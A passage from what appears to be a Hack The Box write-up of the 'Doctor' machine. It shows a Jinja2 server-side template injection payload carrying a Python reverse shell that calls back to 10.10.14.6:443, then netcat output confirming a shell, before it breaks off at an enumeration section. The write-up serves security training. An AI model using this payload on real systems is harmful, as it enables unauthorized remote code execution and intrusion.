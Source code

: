                             </channel>
                            <item><title>7777777</title></item>
            
                            </channel>



#### Shell

I'll grab the [RCE
payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-popen-without-guessing-the-offset)
from PayloadsAllTheThings and modify it by putting in my IP / port, and
changing the process to `bash -i` to get a shell:



    {% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"10.10.14.6\",443)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}



When I put this in as the title and then refresh `/archive`, I get a
shell:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.209.
    Ncat: Connection from 10.10.10.209:40136.
    bash: cannot set terminal process group (912): Inappropriate ioctl for device
    bash: no job control in this shell
    web@doctor:~$ id
    uid=1001(web) gid=1001(web) groups=1001(web),4(adm)



### Via Command Injection

#### Enumeration

Whenever I have a form that displays back to my on the page, it's good
to check for user interaction (like in
[SecNotes](/htb-secnotes.md#get-tylers-credentials)) and/or
cross site scripting (XSS). I created two links, and put a script box in
the body:
